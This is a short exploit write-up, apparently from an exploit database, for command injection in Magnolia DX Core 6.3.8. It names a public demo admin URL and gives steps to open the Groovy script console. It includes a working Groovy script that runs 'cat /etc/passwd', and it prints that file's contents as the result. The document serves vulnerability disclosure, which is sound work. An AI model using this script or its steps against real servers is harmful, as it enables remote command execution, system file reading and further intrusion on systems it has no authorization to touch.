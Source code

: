 #### Exploit Title: Magnolia DX Core 6.3.8 - Command Injection  
#### Date: 05/16/2025  
#### Exploit Author: tmrswrr  
#### Version: 6.3.8  
#### Vendor home page: https://docs.magnolia-cms.com/home/  
#### Product: https://docs.magnolia-cms.com/product-docs/6.3/releases/release-notes-for-magnolia-cms-6.3.8/  
#### Demo: https://docs.magnolia-cms.com/product-docs/6.3/getting-started-with-magnolia/demo/  

1) Authenticate as an admin:  
   `https://demoauthor.magnolia-cms.com/.magnolia/admincentral`  
2) Navigate to **Development > Groovy > Add Script**  
3) Inject Groovy Script:

```groovy
def process = "cat /etc/passwd".execute()
def output = new StringBuffer()
process.consumeProcessOutput(output, System.err)
process.waitFor()

println "${output}: "
```
Result : 
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash```
